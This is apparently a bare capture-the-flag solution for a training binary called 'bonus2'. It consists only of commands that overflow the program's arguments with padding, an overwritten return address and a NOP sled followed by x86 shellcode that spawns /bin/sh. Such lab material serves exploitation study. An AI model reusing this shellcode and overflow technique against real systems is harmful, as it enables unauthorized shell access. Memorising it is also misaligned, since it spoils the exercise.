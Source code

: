 # bonus2

r $(python -c 'print("a"*40)') $(python -c 'print("b"*23 + "\xA0\xF6\xFF\xBF")')

export LANG=fl

./bonus2 $(python -c 'print("\x90"*17 + "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80")') $(python -c 'print("b"*23 + "\x80\xF6\xFF\xBF")')